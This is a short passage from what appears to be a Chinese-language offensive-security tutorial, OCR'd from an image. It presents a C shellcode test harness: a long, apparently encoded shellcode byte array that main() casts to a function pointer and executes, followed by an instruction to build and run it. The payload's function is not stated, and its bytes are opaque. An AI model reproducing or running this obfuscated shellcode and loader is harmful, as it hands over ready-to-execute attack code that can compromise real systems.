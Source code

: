 我们可以在使用之前测试这个 shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

然后，构建并运行它：
